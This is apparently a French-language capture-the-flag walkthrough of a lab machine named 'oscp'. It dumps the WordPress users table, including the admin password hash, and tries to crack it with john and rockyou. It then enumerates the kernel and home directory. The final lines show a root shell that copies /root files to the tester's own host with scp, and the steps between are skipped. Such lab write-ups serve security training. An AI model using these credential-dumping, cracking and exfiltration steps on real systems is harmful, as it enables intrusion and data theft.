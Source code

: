 mysql> select admin from wp_user;
ERROR 1146 (42S02): Table 'wordpress.wp_user' doesn't exist
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+-----------------------------------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url               | user_registered     | user_activation_key                           | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+-----------------------------------------------+-------------+--------------+
|  1 | admin      | $P$Bx9ohXoCVR5lkKtuQbuWuh2P36Pr1D0 | admin         | offsec@offsec.com | http://192.168.128.135 | 2020-07-09 06:12:49 | 1598518035:$P$B6J.yu/Uiiw6AeVqVOWdluawXNuW4V/ |           0 | admin        |
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+-----------------------------------------------+-------------+--------------+
1 row in set (0.00 sec)

on récupère le hash du mot de passe donc $P$Bx9ohXoCVR5lkKtuQbuWuh2P36Pr1D0


Je teste le même mot de passe que pour la base de donnée Oscp12345! rien 

On vas aller sur john 

john wp_users.hash -wordlist /usr/share/wordlists/rockyou.txt

Bon rien non plus je laisse tomber cette piste çà sert à rien ! 

Aller revenons un peu plus sur la base du systeme. Sur quoi repose t'il ? 

uname -a 

Linux oscp 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64

oki on a aujourd'hui des versions un peu plus récente 
J'ai d'abord vérifié quelle version du noyau le système fonctionne, peut-être que j'aurais de la chance et que je trouverais un exploit d'escalade de privilège local.


uname -a ; cat /etc/debian_version ; cat /etc/lsb-release
Il semble que la cible utilise un noyau de la version 5.4.0. Depuis de l'eau à coulé sous les pont.  le noyau le plus récent est la version 5.8.1, sortie le 11 août 2020. Juste pour être sûr, j'ai vérifié s'il y avait des exploits publics disponibles, sans succès. Ensuite, j'ai décidé de consulter le répertoire d'accueil de /home/oscp pour voir ce que je peux découvrir.


ls -la /home/oscp
Le seul fichier que je vois s'appeler ip semble être un mini script bash. Je n'ai pas les privilèges pour écrire dans le fichier puisque je ne peux pas utiliser sudo. J'ai décidé de voir quels fichiers ont le bit SUID/GUID activé. Voici la sortie.

D'autres fichiers seront à trouvés. 

comme stage_clear.txt, le dossier 1UP et récupérer son contenu


bash-5.0# scp -r /root/1UP/ nico@10.0.11.3:/home/nico/Bureau/
nico@10.0.11.3's password: 
mushroom                                                                 100%    0     0.0KB/s   00:00    
warrio                                                                   100%    0     0.0KB/s   00:00    
mario                                                                    100%    0     0.0KB/s   00:00    
daisy                                                                    100%    0     0.0KB/s   00:00    
yoshi                                                                    100%    0     0.0KB/s   00:00    
luigi                                                                    100%    0     0.0KB/s   00:00    